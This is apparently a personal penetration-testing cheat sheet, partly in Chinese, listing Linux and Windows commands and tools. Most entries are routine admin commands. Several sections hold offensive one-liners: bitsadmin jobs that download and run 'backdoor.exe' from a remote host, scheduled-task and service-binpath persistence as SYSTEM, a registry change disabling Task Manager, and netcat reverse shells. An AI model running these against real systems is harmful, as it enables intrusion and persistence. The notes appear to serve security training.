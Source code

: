 # Basic Commands & Tools

## Parallels & Kali

Kali Linux 2023.2 ARM64
<https://www.kali.org/tools/>

## Linux

### shell

#### find

```shell
touch root_auto_schedule.sh
sudo chown root root_auto_schedule.sh
sudo chmod o+w root_auto_schedule.sh
sudo find / -user root -type f -perm -o=w -iname '*.sh' 2>/dev/null
```

#### cat | cut | uniq | sort

```shell
cat access_log.txt | cut -d " " -f 1 | uniq -c | sort -run
```

---

#### ss

```shell
ss -aptu
```

## Windows

### cmd & powershell

#### systeminfo

```shell
systeminfo /s host1
```

#### set

```shell
echo %temp%
```

#### dir

```shell
dir /a
dir /s *.exe /p
```

#### forfiles

```shell
forfiles /p c:\windows /s /m notepad.exe /c "cmd /s echo @path @fdate @ftime"
```

#### attrib

```shell
attrib -h local_hide.txt
```

#### icaacls

```shell
icacls local_hide.txt /grant Everyone:F
```

### reg

reg 是Windows命令行和脚本中用来操纵注册表的命令。reg 命令的全称是 "Registry Editor" 的缩写，它允许用户在命令行界面中执行注册表操作，如添加、修改、删除注册表键和值。

注册表是Windows操作系统中一个重要的数据库，存储了系统设置和配置信息，包括硬件、软件、用户偏好和系统设置等。通过 reg 命令，可以直接对注册表进行查询和更改，这对于系统管理和故障排除非常有用。

```shell
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg add "hkcu\software\microsoftware\windows\currentversion\policies\system" /v disabletaskmgr /t reg_dword /d "1" /f
```

### bitsadmin

bitsadmin是一个Windows命令行工具，用于管理后台智能传输服务（Background Intelligent Transfer Service，简称BITS）。BITS是一项Windows服务，允许文件在网络上以异步方式传输，通常用于在用户不注意的情况下传输文件，如Windows更新或其他应用程序的数据更新。

bitsadmin 工具提供了一系列的命令来创建、监视和控制BITS作业。作业是由一个或多个文件传输组成的，并且可以根据网络条件动态地调整速度，这样在网络使用率低的时候可以更快地传输数据，而在网络繁忙时则减慢速度，避免占用过多带宽。

```shell
bitsadmin /list /allusers /verbose
bitsadmin /info xxx /verbose

bitsadmin /create backdoor
bitsadmin /addfile backdoor "http://1.1.1.1/backdoor.exe" "c:\windows\temp\backdoor.exe"
bitsadmin /SetNotifyCmdLine backdoor "cmd.exe /c c:\windows\temp\backdoor.exe" NULL
bitsadmin /Setminretrydelay backdoor 1
bitsadmin /resume backdoor
```

### schtasks

schtasks 是Windows操作系统中用来创建、删除、查询、更改和运行系统任务计划的命令行工具。任务计划可以用来定时运行脚本或程序，执行系统维护任务，或者自动执行重复的作业。

```shell
schtasks /create /tn 任务名称 /tr 任务运行的命令 /sc 计划类型 /mo 修饰参数 /d 天 /st 开始时间 /ru 运行用户
```

```shell
schtasks /query /fo LIST /v
schtasks /create /tn "backdoor" /tr "c:\windows\temp\backdoor.exe" /sc minute /mo 1 /ru "system"
schtasks /run /tn "backdoor"
```

### sc

sc 是Windows操作系统中用来管理服务的命令行工具。sc 命令可以用来创建、删除、查询、更改和控制服务，如启动、停止、暂停和恢复服务。

```shell
sc query wsearch
sc qc wsearch
sc config wsearch binpath= "cmd.exe /c c:\windows\temp\backdoor.exe"
sc start wsearch
```

### SysinternalsSuit

- PsInfo64.exe /accepteula

---

## Tools

### nc

```shell
nc 升级shell
python -c 'import pty;pty.spawn("/bin/bash")'

nc 反弹shell
nc 172.16.8.1 1234 -e /bin/bash
不支持-e参数
nc 172.16.8.1 1234 | /bin/bash | nc 72.16.8.1 2345
```

## Information Gathering

<https://www.megacorpone.com/>

### whois

```shell
╰─❯ whois megacorpone.com
```

### host

```shell
╰─❯ host NS1.MEGACORPONE.COM
NS1.MEGACORPONE.COM has address 51.79.37.18
```

### google hacking

<https://www.exploit-db.com/google-hacking-database>

---

## OWASP 10

### 文件包含

<https://www.php.net/manual/zh/wrappers.php>

## Tips

1.
